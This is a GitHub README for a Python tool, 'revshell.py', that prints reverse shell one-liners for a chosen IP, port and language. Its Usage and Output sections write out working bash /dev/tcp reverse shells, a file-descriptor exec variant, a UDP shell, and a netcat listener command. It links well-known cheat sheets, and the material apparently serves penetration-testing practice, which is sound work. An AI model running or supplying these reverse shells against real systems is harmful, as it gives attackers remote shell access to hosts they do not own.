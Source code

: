 ### Revshell is a python script that will display multiple reverse shells in different programming langueges

<p>
    These shells were found online from different resources, they will be listed below
<p>

---

## Usage

```powershell
revshell.py -l [local IP] -p [port you want to listen on] -s [the language you want]
Example: revshell.py -l 10.10.10.10 -p 5555 -s bash 
```

## Output

```powershell
bash -i >& /dev/tcp/10.10.10.10/5555 0>&1

0<&196;exec 196<>/dev/tcp/10.10.10.10/5555; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/10.10.10.10/5555 0<&1 2>&1

You can use this for UPD

Victim host
sh -i >& /dev/udp/10.10.10.10/5555 0>&1

On your local machine
nc -u -lvp 5555
```
---

## Reverse shell's resources

[pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[Bernardo's Reverse Shell One-Liners](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)

[payloadsallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

---

<p>
    If you use this script and find it usefull then thank you and please let me know </br>
    if there is anything I can do to make it better. Also if you see something in the </br>
    code that could be done/written better please let me know as well, I am trying </br>
    to get better at my python coding.
</p>
